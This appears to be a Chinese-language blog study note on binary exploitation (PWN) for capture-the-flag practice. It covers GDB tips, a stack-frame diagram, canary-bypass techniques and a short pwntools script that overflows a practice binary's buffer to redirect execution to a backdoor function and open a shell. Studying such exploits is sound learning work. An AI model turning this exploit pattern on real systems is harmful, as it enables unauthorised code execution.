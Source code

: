 ```yaml
---
title: PWN
createTime: 2025/04/24 18:35:25
permalink: /studyNotes/dy4sana5/
---
```

# PWN

## 名词解释

- exploit，攻击脚本
- payload，攻击载荷
- shellcode，将要在服务器执行的shell命令

## GDB

- [gdb调试常用命令](https://blog.csdn.net/weixin_40179091/article/details/109828318)
- PIE绕过调试 b *$rebase(0x933)

## 栈溢出

```markdown
-------------------------
|    局部变量 (40字节)   |
-------------------------
|    保存的rbp (8字节)   |
-------------------------
|    返回地址 (8字节)    |
-------------------------
```

```python
from pwn import *
p=process("./overflow")
#p=remote(IP,端口)
backdoor=0x400677b
payload=b'a'*0x18+p64(backdoor)
p.recvuntil("Your suggestion:\n")
p.sendline(payload)
p.interactive()
```

### Canary绕过

- 格式化字符串绕过canary
- Canary爆破（针对有fork函数的程序）
- Stack smashing
- 劫持__stack_chk_fail

### PIE保护
